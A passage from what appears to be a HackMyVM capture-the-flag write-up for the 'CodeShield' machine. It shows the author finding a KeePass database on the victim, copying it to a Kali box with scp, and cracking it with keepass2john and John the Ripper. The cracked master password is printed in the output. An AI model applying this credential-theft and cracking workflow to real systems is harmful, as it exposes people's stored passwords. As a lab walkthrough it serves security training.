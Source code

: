 ```bash
drwx------  2 earlyp earlyp 4096 Aug 22 21:10 .ssh
-rw-r--r--  1 earlyp earlyp    0 Aug 22 19:39 .sudo_as_admin_successful
drwxr-xr-x  2 earlyp earlyp 4096 Aug 22 20:05 Templates
-rw-r-----  1 earlyp earlyp    6 Aug 28 20:56 .vboxclient-clipboard-tty2-control.pid
-rw-r-----  1 earlyp earlyp    6 Aug 28 20:56 .vboxclient-draganddrop-tty2-control.pid
-rw-r-----  1 earlyp earlyp    6 Aug 28 20:56 .vboxclient-hostversion-tty2-control.pid
-rw-r-----  1 earlyp earlyp    6 Aug 28 20:56 .vboxclient-seamless-tty2-control.pid
-rw-r-----  1 earlyp earlyp    6 Aug 28 20:56 .vboxclient-vmsvga-session-tty2-control.pid
drwxr-xr-x  2 earlyp earlyp 4096 Aug 22 20:05 Videos
earlyp@codeshield:~$ cd Documents/
earlyp@codeshield:~/Documents$ ls -la
total 12
drwxr-xr-x  2 earlyp earlyp 4096 Aug 28 17:42 .
drwxr-x--- 19 earlyp earlyp 4096 Aug 29 06:22 ..
-rw-------  1 earlyp earlyp 1918 Aug 28 17:42 Passwords.kdbx
earlyp@codeshield:~/Documents$ 

```
There is one file interesting for now: `Passwords.kdbx`.
We should try to copy this file to our Kali and try to crack the file.
```bash
earlyp@codeshield:~/Documents$ pwd
/home/earlyp/Documents
```

To copy the file to our working directory we could utilize the tool `scp`. The file location should be known as well. Therefor we can use the command `pwd`.
```bash
earlyp@codeshield:~/Documents$ pwd
/home/earlyp/Documents
```

----
## Get the root flag

Now we can copy the file from our victim to our Kali machine. We know the password for the user `earlyp`, the file and the location where the file is stored.
```bash
scp -P 22222 earlyp@$ip:/home/earlyp/Documents/Passwords.kdbx /home/emvee/Documents/HMV/CodeShield/Passwords.kdbx
```
![Image](/assets/img/WriteUp/HackMyVM/CodeShield/Pasted image 20230830133509.png){: width="700" height="400" }

As soon as the file has been copied to our working directory we can try to crack the password hash of the file. To crack the password hash we should extract the hash so we can crack it with John The Ripper.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/CodeShield]
└─$ keepass2john Passwords.kdbx> keepasshash.txt 
```
Now let's crack the hash with the wordlist we have created before.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/CodeShield]
└─$ john --wordlist=wordlist.txt keepasshash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 3225806 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mandalorian      (Passwords)     
1g 0:00:00:23 DONE (2023-08-30 13:36) 0.04327g/s 4.154p/s 4.154c/s 4.154C/s macewindu..Venom
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```